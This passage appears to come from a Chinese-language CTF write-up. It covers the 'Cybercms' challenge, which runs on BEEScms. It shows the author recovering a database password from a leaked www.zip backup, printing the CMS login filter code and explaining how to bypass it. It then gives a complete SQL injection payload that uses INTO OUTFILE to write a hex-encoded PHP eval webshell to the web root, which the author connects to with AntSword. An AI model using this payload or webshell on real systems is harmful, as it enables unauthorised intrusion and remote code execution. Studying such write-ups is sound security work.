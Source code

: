 用冰蝎连接，getshell

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01cfeeede3b1d5ee81.png)

### <a class="reference-link" name="Cybercms"></a>Cybercms

这个题一打开，给了提示说是信息收集，然后扫了一下，发现有www.zip，下载后在data/config.php里面发现数据库的密码

[![](https://p1.ssl.qhimg.com/t01045e779085807953.png)](https://p1.ssl.qhimg.com/t01045e779085807953.png)

然后找到后台，用这个密码试着登陆一下，发现可以进去。

试了后台几个文件上传的点，发现会报错，还有一个就是上传后，访问会报404，可能会有条件竞争？

于是换了一个思路，这个时候发现其实这是一个Beescms，然后去搜了一下，有一个登陆窗口写shell的洞，不过直接打不行，代码做了修改，这里看一下登陆具体的代码：

```
$user=fl_html(f1_vvv(fl_value($_POST['user'])));
$password=fl_html(f1_vvv(fl_value($_POST['password'])));
```

跟进一下这几个函数：

```
function fl_value($str)`{`
    if(empty($str))`{`return;`}`
    return preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\.\.\/|\.\/| union | from | where | group | into |load_file
|outfile/i','',$str);
`}`
define('INC_BEES','B'.'EE'.'SCMS');
function fl_html($str)`{`
    return htmlspecialchars($str);
`}`
function f1_vvv($str)`{`
    if(empty($str))`{`return;`}`
    if(preg_match("/\ /i", $str))`{`
        exit('Go away,bad hacker!!');
    `}`
    preg_replace('/0x/i','',$str);
    return $str;
`}`
```

过滤的很鸡肋，空格可以用`/**/`代替，然后其他的可以双写

最终的payload:

`user=admin'union/**/seselectlect/**/1,1,1,1,0x3c3f706870206576616c28245f504f53545b636d645d293b3f3e/**/into/**/outoutfilefile/**/'/var/www/html/k.php'#&amp;password=1` 然后我们的马就写到web根目录下面了，然后蚁剑连上去读flag就好了

### <a class="reference-link" name="ez_website"></a>ez_website
